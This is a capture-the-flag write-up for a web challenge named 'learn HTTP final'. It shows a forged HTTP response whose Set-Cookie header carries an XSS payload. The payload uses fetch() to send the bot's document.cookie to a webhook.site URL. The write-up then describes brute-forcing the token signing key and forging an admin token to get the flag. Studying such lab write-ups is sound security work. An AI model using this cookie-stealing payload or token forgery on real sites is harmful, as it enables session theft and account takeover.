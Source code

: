 # learn HTTP final
## Solution
We can produce any HTTP response, just url-encode it and pass to the input to get the url to produce your HTTP response.

Here, the XSS is found in `/learn` (innerHTML is set as cookie) but the bot visits `/resp`, so we need to make a payload such that it will set the cookie and change it's location to learn.

```
HTTP/1.1 302 OK
Set-Cookie: name=<img src="lol" onerror="fetch(`https://webhook.site/7c0b4f46-d927-4d8e-8601-3d70d049fe4c?${document.cookie}`)" />
Location: http://localhost:5000/learn


```

![hook response](hook.png)

We get the token in the request, after bruting the signing key, we find it as `danger`

changing the id to 2 and sigining the payload, we request to `/flag` with cookie as `token=<new_token>`, we get the flag

## Flag
`pearl{7ime_to_ch4ng3_mY_S3cr3ts}`